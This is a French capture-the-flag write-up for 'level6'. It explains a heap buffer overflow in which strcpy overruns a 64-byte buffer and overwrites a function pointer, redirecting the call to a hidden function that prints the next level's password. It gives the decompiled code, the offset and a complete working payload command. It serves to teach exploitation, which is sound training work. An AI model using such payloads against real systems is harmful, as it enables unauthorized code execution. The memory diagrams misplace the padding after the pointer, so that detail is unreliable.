 # LEVEL 6

## 1. Introduction

Le binaire `level6` présente une vulnérabilité de **buffer overflow** classique, mais avec une particularité : le programme utilise des **arguments de ligne de commande** au lieu d'une entrée standard. Notre objectif est d'écraser un pointeur de fonction pour rediriger l'exécution vers une fonction cachée qui affiche le flag.

Mais on devine que ça ne sera pas une string attack mais un buffer overflow classique, on peut vérifier simplement avec Ghidra.

![alt text](Ressources/image-1.png)

## 2. Analyse

### 2.1 Execution du binaire

![alt text](Ressources/image.png)

### 2.2 Droits du binaire
```bash
$ ls -la level6
-rwsr-s---+ 1 level7  level6  747441 Mar  6  2016 level6
```

### 2.3 Analyse avec Ghidra

En décompilant le binaire, on observe la structure suivante :

```c
void n(void) {
    system("/bin/cat /home/user/level7/.pass");  // ← Notre cible !
    return;
}

void m(void *param_1, int param_2, char *param_3, int param_4, int param_5) {
    puts("Nope");
    return;
}

void main(undefined4 param_1, int param_2) {
    char *__dest;
    code **ppcVar1;
    
    __dest = (char *)malloc(0x40);        // Buffer de 64 octets
    ppcVar1 = (code **)malloc(4);         // Pointeur de fonction
    *ppcVar1 = m;                         // Pointe vers m() par défaut
    strcpy(__dest, *(char **)(param_2 + 4));  // ← Vulnérabilité !
    (**ppcVar1)();                        // Appel de la fonction pointée
    return;
}
```

**Points clés :**
- `strcpy()` sans vérification de taille = vulnérabilité buffer overflow
- Buffer de 64 octets (`malloc(0x40)`)
- Pointeur de fonction `ppcVar1` qui pointe vers `m()` par défaut
- Fonction `n()` affiche le flag (notre cible)

### 2.4 Fonction cible

On voit bien en effet qu'il y a un buffer overflow à exploiter, en cherchant un peu plus il y a cette fonction qui donne le flag :

![alt text](Ressources/image-2.png)

Et son adresse est : `0x08048454` soit `\x54\x84\x04\x08` en little-endian.

**Adresse de `n()` : `0x08048454`**

## 3. Exploitation

### 3.1 Étape 1 : Détermination de l'offset

Pour le payload il va nous falloir l'offset (là où ça segfault), qu'on peut obtenir toujours grâce au pattern generator.

On lance d'abord le pattern avec GDB :

![alt text](Ressources/image-4.png)

Et on donne l'adresse de là où ça segfault sur le site :

![alt text](Ressources/image-3.png)

Et on obtient un offset de **72**.

### 3.2 Étape 2 : Construction du payload

Donc pour le payload on peut tout simplement :

```bash
python -c 'print "A" * 72 + "\x54\x84\x04\x08"'
```

### 3.3 Étape 3 : Exécution de l'exploit

Et pour avoir le résultat on peut le mettre dans un subshell et le passer en arguments du binaire :

```bash
./level6 "$(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')"
```

Et on obtient le flag !

![alt text](Ressources/image-5.png)

### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level6@<IP> -p 4242

# Créer et exécuter l'exploit
./level6 "$(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')"
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│              BUFFER OVERFLOW AVEC ARGUMENT             │
├─────────────────────────────────────────────────────────┤
│  Buffer[64] + Pointeur fonction[4] + Padding[4]       │
│  │                                                    │
│  └─→ "A"*72 + "\x54\x84\x04\x08"                    │
│      │                                                │
│      └─→ strcpy() déborde le buffer de 64 octets     │
│          │                                            │
│          └─→ Écrasement du pointeur de fonction      │
│              │                                        │
│              └─→ Pointeur pointe vers n() au lieu de m()│
│                  │                                    │
│                  └─→ n() appelle system("/bin/cat ...")│
│                      │                               │
│                      └─→ Flag affiché directement    │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la mémoire

```
┌─────────────────┐
│   Buffer[64]    │ ← Notre argument (64 octets)
├─────────────────┤
│ Pointeur func   │ ← 4 octets (notre cible)
├─────────────────┤
│   Padding[4]    │ ← 4 octets pour atteindre 72
└─────────────────┘
```

### 4.3 Redirection du pointeur de fonction

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Avant         │    │   Écrasement    │    │   Après          │
│   Pointeur      │    │   Buffer        │    │   Pointeur      │
│   0x080484a4    │───▶│   Overflow      │───▶│   0x08048454    │
│   → m()         │    │   72 bytes      │    │   → n()         │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. Programme reçoit notre argument en ligne de commande
2. strcpy() copie notre argument dans le buffer de 64 octets
3. Buffer déborde et écrase le pointeur de fonction
4. Pointeur pointe maintenant vers n() au lieu de m()
5. (**ppcVar1)() appelle n() à la place de m()
6. n() exécute system("/bin/cat /home/user/level7/.pass")
7. Le flag est affiché directement
```

### 4.5 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Argument      │    │   Buffer        │    │   Redirection   │
│   "A"*72 +     │───▶│   Overflow      │───▶│   m() → n()     │
│   \x54\x84...  │    │   strcpy()      │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.6 Mécanisme de function pointer overwrite

```
┌─────────────────┐
│ Buffer[64]      │ ← Notre argument (déborde)
├─────────────────┤
│ Pointeur func   │ ← Écrasé par notre payload
├─────────────────┤
│ Padding[4]      │ ← Pour atteindre offset 72
└─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre l'importance de la validation des arguments de ligne de commande et l'utilisation de techniques de function pointer overwrite pour rediriger l'exécution de programmes. 